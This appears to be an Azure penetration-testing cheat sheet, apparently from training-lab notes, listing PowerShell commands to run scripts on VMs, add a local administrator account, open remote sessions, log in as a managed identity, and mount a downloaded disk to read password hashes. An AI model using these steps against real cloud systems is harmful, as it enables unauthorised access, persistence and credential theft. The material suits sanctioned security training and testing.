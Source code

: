 #### Query ID of public ip adress to get the public ip
```
Get-AzPublicIpAddress -Name <ID OF PUBLIC IP ADRESSES IN IPCONFIGURATION>
```

#### Check role assignments on the VM
```
Get-AzRoleAssignment -Scope <RESOURCE ID>
```

#### Check the allowed actions of the role definition
```
Get-AzRoleDefinition -Name "<ROLE DEFINITION NAME>"
```

#### Run a command on the VM
```
Invoke-AzVMRunCommand -VMName <VM NAME> -ResourceGroupName <NAME> -CommandId 'RunPowerShellScript' -ScriptPath '<PATH TO .ps1 FILE>' -Verbose
```

#### Add user example script
```
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
New-LocalUser -Name <USER> -Password $passwd
Add-LocalGroupMember -Group Administrators -Member student38
```

#### Access the VM
```
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USER>', $Password)
$sess = New-PSSession -ComputerName <IP> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
```

### Login on VM as managed idenity
```
az login –identity
```

### Read password hashes from virtual machine
- Download the disk https://docs.microsoft.com/en-us/azure/virtual-machines/windows/download-vhd#generate-download-url

#### Check the disks
```
sudo fdisk –l
```

#### Mount the disk
```
sudo mkdir /media/mounted-drive
sudo mount /dev/sdc4 /media/mounted-drive/
```
